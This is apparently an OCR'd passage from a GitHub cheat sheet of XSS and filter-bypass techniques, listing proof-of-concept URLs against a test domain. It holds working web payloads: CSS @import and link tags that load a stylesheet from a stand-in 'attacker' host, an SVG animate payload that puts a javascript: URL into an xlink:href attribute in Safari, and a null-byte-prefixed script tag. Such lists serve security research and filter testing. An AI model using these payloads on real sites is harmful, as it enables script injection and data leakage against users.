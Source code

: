 Reference URL:

- http://www.businessinfo.co.uk/labs/talk/The_Sexy_Assassin.ppt
- https://masatokinugawa.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html

[https://vulnerabledoma.in/bypass/text?q=%3Cstyle%3E@import%20%27//attacker/test.css%27%3C/style%3E](https://vulnerabledoma.in/bypass/text?q=@import '//attacker/test.css')

```
<style>@import '//attacker/test.css'</style>
```

[https://vulnerabledoma.in/bypass/text?q=%3Clink%20rel=stylesheet%20href=//attacker/test.css%3E](https://vulnerabledoma.in/bypass/text?q=)

```
<link rel=stylesheet href=//attacker/test.css>
```

## bypass

### Using the SVG animation values attribute (Safari only)

Conditions for attacking:

1. There is XSS that can write arbitrary tags

Reference URL:

- https://bugs.chromium.org/p/chromium/issues/detail?id=709365
- https://bugs.chromium.org/p/chromium/issues/detail?id=738017

PoC:

[https://vulnerabledoma.in/bypass/text?q=%3Csvg%20xmlns:xlink=http://www.w3.org/1999/xlink%3E%3Canimate%20xlink:href=%23x%20attributeName=%22xlink:href%22%20values=%22%26%23x3000%3Bjavascript:alert(1)%22%20/%3E%3Ca%20id=x%3E%3Crect%20width=100%20height=100%20/%3E%3C/a%3E](https://vulnerabledoma.in/bypass/text?q=)

```
<svg xmlns:xlink=http://www.w3.org/1999/xlink><animate xlink:href=#x attributeName="xlink:href" values="&#x3000;javascript:alert(1)" /><a id=x><rect width=100 height=100 /></a>
```

### Using multiple null characters (Safari only)

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. a null byte is printed
3. no preceding whitespace

Reference URL:

- https://twitter.com/0rbz_/status/896896095862669312

PoC:

[https://vulnerabledoma.in/bypass/text?q=%00%00%00%00%00%00%00%3Cscript%3Ealert(1)%3C/script%3E](https://vulnerabledoma.in/bypass/text?q=alert(1))
